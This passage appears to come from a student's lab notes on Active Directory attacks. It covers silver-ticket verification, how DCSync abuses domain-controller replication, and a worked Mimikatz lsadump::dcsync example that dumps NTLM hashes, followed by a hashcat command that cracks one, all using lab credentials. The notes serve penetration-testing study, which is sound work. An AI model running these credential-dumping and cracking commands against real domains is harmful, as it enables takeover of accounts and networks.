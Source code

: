 		- From the perspective of the IIS application, the current user will be both the built-in local administrator ( Relative Id: 500 ) and a member of several highly-privileged groups, including the Domain Admins group ( Relative Id: 512 )
	- Confirm ticket ready to use in memory
		-`klist`
	- Verify
		- `iwr -UseDefaultCredentials http://web04`
	- To help find flag add:
		- `"| findstr /i OS{"`
		- Actually:
			- `PS C:\Tools> (iwr -UseDefaultCredentials http://web04).content/ | findstr /i "OS{"` <-- display web content through HTTP request
- [Note]:
	-  It's worth noting that we performed this attack without access to the plaintext password or password hash of this user.
	- Once we have access to the password hash of the SPN, a machine account, or user, we can forge the related service tickets for any users and permissions. 
	- Microsoft created a security patch to update the PAC structure. With this patch in place, the extended PAC structure field PAC_REQUESTOR needs to be validated by a domain controller. This mitigates the capability to forge tickets for non-existent domain users if the client and the KDC are in the same domain. Without this patch, we could create silver tickets for domain users that do not exist.

### Domain Controller Synchronization

- *DRS* (*Directory Replication Service*)  Remote Protocol
	- Uses *replication* to synchronize these redundant domain controllers
	- A domain controller may request an update for a specific object, like an account, using the IDL_DRSGetNCChanges API.
	- the domain controller receiving a request for an update does not check whether the request came from a known domain controller. Instead, it only verifies that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed.
- Need to have:
	- *Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set* rights.
	- By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.
	
	- *dcsync* attack
		- If we obtain access to a user account in one of these groups or with these rights assigned where we can impersonate a domain controller

Example (w/ Mimikatz (Windows)):
- Set up:
	- RDP CLIENT75 as jeffadmin with the password BrouhahaTungPerorateBroom2023!.
	-  jeffadmin is a member of the Domain Admins group
- Start:
	- `cd C:\Tools\`
	- `.\mimikatz.exe`
	- `lsadump::dcsync /user:corp\dave`
		- **lsadump::dcsync** -> module
		- **/user:** -> domain\user
		- output -> NTLM hash
- Crack the hash
	- `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
	- output -> Flowers1
- We can now obtain the NTLM hash of any domain user account of the domain **corp.com**
	- Get Admin hash
		- `lsadump::dcsync /user:corp\Administrator`
		- output -> Admin NTLM hash
